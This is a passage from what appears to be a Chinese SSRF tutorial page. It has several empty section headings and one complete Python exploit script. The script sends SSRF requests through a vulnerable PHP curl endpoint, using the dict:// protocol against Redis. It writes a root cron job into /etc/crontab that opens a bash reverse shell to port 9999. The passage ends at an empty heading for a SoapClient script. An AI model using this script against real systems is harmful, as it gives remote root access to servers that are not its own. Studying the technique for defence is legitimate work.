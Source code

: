 







## 0x08 parse_url、filter_url、curl的特性





## 0x09 php Soapclient 引发的SSRF







## 0x10 利用脚本



### dict协议获取redis反弹shell

```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-
import urllib2,urllib,binascii
url = "http://192.168.0.109/ssrf/base/curl_exec.php?url="
target = "dict://192.168.0.119:6379/"
cmds = ['set:mars:\\\\"\\n* * * * * root bash -i >& /dev/tcp/192.168.0.119/9999 0>&1\\n\\\\"',
       "config:set:dir:/etc/",
       "config:set:dbfilename:crontab",
       "bgsave"]

for cmd in cmds:
    cmd_encoder = ""
    for single_char in cmd:
        # 先转为ASCII
        cmd_encoder += hex(ord(single_char)).replace("0x","")
    cmd_encoder = binascii.a2b_hex(cmd_encoder)
    cmd_encoder = urllib.quote(cmd_encoder,'utf-8')

    payload = url + target + cmd_encoder
    print payload
    request = urllib2.Request(payload)
    response = urllib2.urlopen(request).read()
```









### Soapclient POST报文生成脚本
